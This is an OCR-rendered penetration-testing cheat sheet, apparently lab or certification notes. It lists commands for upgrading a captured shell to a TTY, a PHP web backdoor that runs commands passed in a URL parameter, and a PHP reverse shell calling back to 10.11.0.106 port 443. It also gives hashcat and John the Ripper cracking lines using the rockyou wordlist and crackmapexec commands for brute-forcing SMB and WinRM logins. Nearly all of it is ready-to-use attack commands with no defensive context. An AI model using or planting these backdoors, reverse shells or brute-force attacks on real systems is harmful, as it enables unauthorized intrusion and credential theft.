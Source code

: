 ## SHELLS

Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user \(For example when you encounter an error message when trying to run an exploit sh: no job control in this shell \)

Interactive shell:

> $python -c 'import pty; pty.spawn\("/bin/bash"\)' $ echo os.system\('/bin/bash'\)

Adjust Interactive shell:

> $ Ctrl-Z  
> $ echo &gt; $TERM //find term $ stty raw -echo //disable shell echo  
> $ fg  
> $ reset  
> $ export SHELL=bash  
> $ export TERM=xterm

Php backdoor:

> $ &lt;?php echo shell\_exec\( &gt; $\_GET\['cmd'\]\);?&gt;

Php shell:

> $ &lt;?php echo shell\_exec\('bash -i &gt;& /dev/tcp/10.11.0.106/443 0&gt;&1'\);?&gt;  
> $

## PSSWD CRACKING

```text
> $ Look for the hash in online databases
```

Hashcat:

> $ Find mode in hashcat  
> ▪ hashcat --example hashes  
> $ hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

John:

> $ john files --wordlist=/usr/share/wordlists/rockyou.txt

## PSSWD Mutation

Hashcat

> $ hashcat -m 0 bfield.hash /usr/share/wordlists/rockyou.txt -r rules

## PSSWD BruteForcing

Crackmapexec

> $ Enumerate password policy  
> ▪ crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS --pass-pol  
> $ Bruteforce SMB  
> ▪ crackmapexec smb 10.10.10.172 -u /root/users.lst -p /root/passwords.lst  
> $ Bruteforce winrm  
> ▪ crackmapexec winrm 10.10.10.172 -u /root/users.lst -p /root/passwords.lst
